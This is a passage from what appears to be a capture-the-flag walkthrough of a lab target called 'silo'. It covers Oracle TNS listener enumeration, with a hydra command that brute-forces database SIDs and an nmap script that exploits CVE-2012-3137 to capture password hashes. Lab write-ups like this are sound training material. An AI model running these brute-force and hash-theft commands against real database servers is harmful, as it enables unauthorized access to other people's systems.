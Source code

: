 Not much new information. Look at the script source to see what it is doing:

- https://svn.nmap.org/nmap/scripts/oracle-tns-version.nse

It seems like the `unauthorized` response is due to a 1189 error code. Oracle DB error codes can be found here:

- https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm

This shous the following for the error:

```
TNS-01189: The listener could not authenticate the user
```

Getting warmer. Next bruteforce a list of database names (called SIDs) using `hydra`:

```bash
# generate unique word list from nmap and MSF SIDS
cp /usr/share/metasploit-framework/data/wordlists/sid.txt ./msf_sid.txt
cp /usr/share/nmap/nselib/data/oracle-sids ./nmap_sid.txt
sort nmap_sid.txt msf_sid.txt | awk 'NF' | uniq > sid.txt
# run bruteforce
hydra -L sid.txt -s 1521 10.10.10.82 oracle-sid
```

![oracle1](./silo/oracle1.png)

So there are 3 DB names:

```
XE
CLRExtProc
PLSExtProc
```

Now try to bruteforce a login for these databases using `nmap`. Since the target version is `11.2.0.2.0`, it is vulnerable to CVE-2012-3137:

- https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force
- https://nvd.nist.gov/vuln/detail/CVE-2012-3137
- https://nmap.org/nsedoc/scripts/oracle-brute-stealth.html

```bash
nmap -v -n -Pn -p 1521 --script oracle-brute-stealth \
     --script-args "oracle-brute-stealth.sid=XE,oracle-brute-stealth.johnfile=oracle.hash" \
     10.10.10.82
```
